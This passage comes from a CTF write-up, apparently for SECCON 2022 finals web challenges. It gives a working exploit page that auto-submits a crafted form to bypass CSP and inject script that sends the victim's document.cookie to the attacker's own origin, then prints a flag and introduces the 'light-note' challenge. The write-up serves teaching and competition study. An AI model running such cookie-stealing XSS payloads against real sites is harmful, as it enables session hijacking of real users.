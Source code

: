 `index.html`:
```html
<body>
  <script>
    const submit = (url, { minifiedCode, originalLength, minifiedLength }) => {
      const innerHtml = `
        <form action="${url}" method="post" target="_blank">
          <input name="minifiedCode" value="${minifiedCode}">
          <input name="originalLength" value="${originalLength}">
          <input name="minifiedLength" value="${minifiedLength}">
        </form>
      `;
      document.body.innerHTML += innerHtml;
      document.forms[document.forms.length - 1].submit();
    };

    const exploit = (url, xss) => {
      const evil = ";`*/<" + "/script>`/*";
      const len = 93;
      submit(url, {
        minifiedCode: (xss + evil).padStart(len, " "),
        originalLength: 0,
        minifiedLength: -304 + len,
      });
    };

    const baseUrl = "http://web:3000";
    exploit(
      `${baseUrl}/post#${encodeURIComponent(location.origin + "/print?cookie=")}`,
      "location = `${decodeURIComponent(location.hash.slice(1))}${document.cookie}`"
    );
  </script>
</body>
```

### Flag

```
SECCON{csp_bypa55_is_a_type_0f_puzzle_games_for_h4ckerS}
```

## [web 300] light-note

- International: 0 solved / 10
- Domestic: 0 solved / 12
- https://github.com/arkark/seccon-ctf-2022-finals-web/tree/main/web/light-note

Description:

> I created a blazing fast note application!
>
> - `https://light-note.{int,dom}.seccon.games`


[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br>ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br>E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br>ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell